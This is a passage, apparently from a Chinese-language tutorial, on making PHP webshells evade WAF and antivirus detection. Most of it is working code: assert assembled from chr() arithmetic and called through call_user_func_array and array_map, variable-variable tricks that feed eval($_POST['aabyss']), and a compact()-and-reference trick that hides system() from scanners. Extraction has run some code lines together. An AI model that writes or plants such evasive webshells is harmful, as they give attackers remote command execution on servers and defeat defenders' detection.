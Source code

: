   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    //ASCII编码解密后为assert高危函数$f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);call_user_func_array($f, array($_POST['aabyss']));  
    4.2 array_map()function fun() {    //ASCII编码解密后为assert高危函数  $f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);  return ''.$f;}$user = fun();    //拿到assert高危函数$pass =array($_POST['aabyss']);array_map($user,$user = $pass );

回调函数的免杀早早就被WAF盯上了，像这样单独使用一般都没办法免杀，所以一般都是配合其他手法使用

##

## 5# 可变变量绕过

###

### 5.1 简单可变变量

什么叫可变变量呢？看一下具体例子就明白了：

  *   *   * 

    
    
    $f = 'hello';    //变量名为f，变量值为Hello$$f = 'AabyssZG';  //变量名为Hello（也就是$f的值），值为AabyssZGecho $hello;     //输出AabyssZG

那要怎么利用这个特性呢？如下：

  *   *   * 

    
    
    $f ='hello';$$f = $_POST['aabyss'];eval($hello);   //eval($_POST['aabyss']); 

###

### 5.2 数组+变量引用混淆

上文提到，可以通过 `compact` 创建一个包含变量名和它们的值的数组

那就可以用 `compact` 创建一个包含恶意函数和内容的数组，再引用出来拼接成语句即可

  *   *   *   *   *   *   *   *   * 

    
    
    $z = "system";                        //配合其他姿势，将system高危函数传给z$zhixin  = &$z;$event = 'hahaha';  
    $result = compact("event", "zhixin"); //通过compact创建数组$z = 'wahaha';                        //我将变量z进行修改为'wahaha'  
    $f = $result['zhixin'];$f($_POST['aabyss']);                  //system($_POST['aabyss']); 

根据5.1学到的内容，可以发现传入数组后，函数内容被替换是不会影响数组中的内容的

于是先用变量 `zhixin` 来引用变量 `z` 然后通过 `compact` 创建为数组，接下来再将变量 `z` 附上新的内容 `wahaha`
，传统的WAF追踪变量的内容时候，就会让查杀引擎误以为数组中的值不是 `system` 而是  `wahaha` ，从而达到WebShell免杀

##

## 6# 数组绕过
